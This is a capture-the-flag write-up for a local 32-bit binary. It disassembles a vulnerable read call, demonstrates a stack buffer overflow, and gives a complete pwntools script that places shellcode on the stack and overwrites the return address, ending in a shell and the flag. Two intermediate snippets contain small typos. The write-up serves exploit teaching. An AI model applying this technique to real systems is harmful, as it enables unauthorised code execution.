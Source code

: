 # Analysis
The basic structure of the `stack-ovfl-sc-32` binary in terms of function calls is:
`main` -> `non_main_func` -> `input_func` -> `read`

Based on this, we can take a closer look at `input_func`:
```gdb
...
0x00001241 <+81>:    lea    -0x84(%ebp),%eax
0x00001247 <+87>:    xor    %ecx,%ecx
0x00001249 <+89>:    movl   $0x0,(%esp)
0x00001250 <+96>:    mov    %eax,0x4(%esp)
0x00001254 <+100>:   movl   $0x100,0x8(%esp)
0x0000125c <+108>:   call   0x1050 <read@plt>
...
```

From this, we know that the buffer is at `%ebp-0x84` and that we can read in `0x100` bytes of data. In theory, this means we can directly overwrite the 
return address. We can test this by trying with random data.

```
$ ./stack-ovfl-sc-32
Your buffer is at: 0xffffc454
Please type your name:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Segmentation fault (core dumped)
```

This suggests that the return address can be overwritten, which makes inserting our shellcode very easy. We just need to overwrite the return address with the
address of the buffer and structure the buffer so that it equals `<shellcode> + <padding> + <buffer_addr>`. To start, it's particularly easy to get the buffer address
because it's printed out for us and we can read that line into our script. 

```py
#!/usr/bin/python3

from pwn import *

p = process('./stack-ovfl-sc-32')

line = p.recvline()
addr = int(line.split(b':')[-1].strip(), 16)
```

For the shellcode itself, we can reuse the shellcode from `nonzero-shellcode-32` (details found [here](./shellcode/writing-shellcode.md#nonzero-shellcode-32)).

```py
file = open("./shellcode.bin', 'rb')
shellcode = file.read()
```

Now we can build the final string:
```py
string = string = shellcode + b'a' * (0x84 - len(shellcode)) + b'_EBP' + p32(addr)
```

# Full Script + Solving
```py
#!/usr/bin/python3

from pwn import *

p = process('./stack-ovfl-sc-32')

file = open('./shellcode.bin', 'rb')
shellcode = file.read()

line = p.recvline()
addr = int(line.split(b':')[-1].strip(), 16)

string = shellcode + b'a' * (0x84 - len(shellcode)) + b'_EBP' + p32(addr)

p.sendline(string)
p.interactive()
```

```
$ ./p.py
[+] Starting local process './stack-ovfl-sc-32': pid 1446811
[*] Switching to interactive mode
Please type your name:
Hello j2X̀\x89É\xc1jGX̀1\xc0P\x89\xc1\x89\xc2hn/shh//bij\x0bX\x89\xe3̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa_EBPd\xc4\xff\xff

$ groups
stack-ovfl-sc-32 sawyeras
$ cat flag
cand{Put_y0ur_sh3llc0de_0n_th3_St4ck}
```
